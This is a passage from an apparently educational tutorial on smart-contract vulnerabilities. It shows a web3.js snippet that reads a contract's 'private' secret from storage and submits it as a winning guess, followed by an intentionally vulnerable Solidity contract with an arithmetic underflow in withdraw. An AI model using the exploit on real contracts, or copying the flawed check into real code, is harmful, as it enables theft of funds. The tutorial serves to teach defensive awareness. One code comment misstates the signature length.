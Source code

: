 For consecutive calls that rely on the secret created by the previous call you instead would look for a previous call to `guessSecret` , get their block meta data including the timestamp and are able to reconstruct a valid guess, again. 

Actually there's a much more trivial way to retrieve the currently stored "secret" value. As stated, the `private` modifier only means that there's no way of calling code that would yield the variable's value but you can simply peek into the contract state by using a `getStorageAt` RPC call. 

Assuming that you don't have the contract's ABI at hand, you only need to observe a previous call on the chain to learn about the guess method's call signature. By knowing (or constructing) the call signature, you can invoke the method with a valid guess like this:

```javascript
const contractAddress = "0x215371DD03B11dEfb94391078F8Ab03b3BD28816";
const contract = await KeepASecret.at(contractAddress);
const slot0 = await web3.eth.getStorageAt(contract.address, 0);
//-> yields value of storage slot 0 where the "secret" is stored

//the first 8 bytes of its interface hash are representing a method's binary call signature:
const guessSignature = web3.utils.keccak256("guessSecret(bytes32)").substr(0,10);
const tx = {
  from: sender,
  to: contractAddress,
  data: guessSignature + slot0,
}
await web3.eth.sendTransaction(tx);
```

### 

### Number Overflows

A wide range of vulnerabilities of smart contracts derive from arithmetic overflows, a problem that needed particular attention in the past. Overflows occur when operating on variables that are determined to predefined range, similar to a mileage meter that returns to "000000" when going past "999999" miles. Developers who are used to working in high level languages like Javascript might be so used to operating on signed arithmetic that they often miss this kind of logic errors:

```solidity
pragma solidity <0.8.0;

contract NumberOverflows {
  mapping(address => uint256) public balances;

  receive() external payable {
    balances[msg.sender] += msg.value;
  }

  function withdraw(uint256 _amount) public {
    require(balances[msg.sender] - _amount >= 0);
    balances[msg.sender] -= _amount;
    payable(msg.sender).transfer(_amount);
  }
}
```
